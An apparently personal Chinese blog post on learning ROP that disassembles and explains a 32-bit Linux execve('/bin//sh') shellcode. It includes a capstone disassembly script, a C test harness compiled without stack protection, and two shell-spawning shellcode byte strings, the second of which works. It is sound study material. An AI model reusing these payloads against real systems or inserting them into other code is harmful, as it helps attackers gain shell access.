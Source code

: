 title: ROP 学习之 Shellcode
date: 2018-01-23 21:42:52
updated: 2018-01-27 17:32:12
tags: ["Linux", "Exploit"]
---

# 0

上一篇学习 ROP 的文章中提到原文的 Shellcode 调用失败了，这次就尝试分析下该 Shellcode 看看能不能找出原因。

# 1. 对 Shellcode 反汇编

拿到一段 Shellcode，第一步就是尝试反汇编，参考文章《使用 Python 将 Shellcode 转换成汇编》文章教程，基于 capstone 使用如下代码即可。

```
#!/usr/bin/env python2
# -*- coding:utf-8 -*-

from capstone import *

for code in shellcode:
    md = Cs(CS_ARCH_X86, CS_MODE_32)
    for i in md.disasm(code, 0x00):
        print("0x%x:\t%s\t%s" %(i.address, i.mnemonic, i.op_str))
```

从这段源码可以看到，这是利用 capstone 的反汇编功能来实现的，但是需要指定对应汇编的处理器架构和字长信息。

# 2. 分析 Shellcode 原理

Linu 下 Shellcode 的原理参考[《Linux下shellcode的编写》](https://xz.aliyun.com/t/2052)一文，关键是调用系统调用函数 execve。这个函数的参数如下：

* 参数 1：file 文件名
* 参数 2：NULL 即 0
* 参数 3：NULL 即 0

实现调用时，需要将系统调用号码 11 放入 eax 中，最终调用`int 0x80`实现函数调用。

## ROP 教程中的 Shellcode 分析

下面针对第一次调用失败的 Shellcode 反汇编得到的代码分析下：

```
0x0:   xor ecx, ecx     \x31\xc9  // 清空 ecx，即 ecx = 0
0x2:   mul ecx          \xf7\xe1  // 貌似是无意义的 ecx清零指令
0x4:   push ecx         \x51      // 压入参数 0
0x5:   push 0x68732f2f  \x68\x2f\x2f\x73\x68  // 压入字符串
0xa:   push 0x6e69622f  \x68\x2f\x62\x69\x6e  // 压入字符串
0xf:   mov ebx, esp     \x89\xe3  // 将字符串的地址传给 ebx
0x11:  mov al, 0xb      \xb0\x0b  // 调用号 0xb == 11
0x13:  int 0x80         \xcd\x80  // 0x80中 断调用系统调用
```

由此可见，从反汇编角度这段 Shellcode 应该是有问题的，参数没有正常的传入。

## 测试 Shellcode 

同样我们可以将这段 Shellcode 拷贝到测试程序中进行测试。

```
char shellcode[] = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main()
{
    int (*ret)() = (int(*)()) shellcode;
    ret();
}
```

然后使用 `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode` 进行编译，预期之内，直接报出 `Segmentation fault` 错误。说明这段 Shellcode 的确是有问题的。

更换为

```
 char shellcode[] =  "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
```

测试正常，该段 Shellcode 可以参考文2来查看详细含义。

# 参考链接

[1.【Python】使用Python将Shellcode转换成汇编](https://bbs.pediy.com/thread-222965.htm)

[2. Linux下shellcode的编写](https://xz.aliyun.com/t/2052)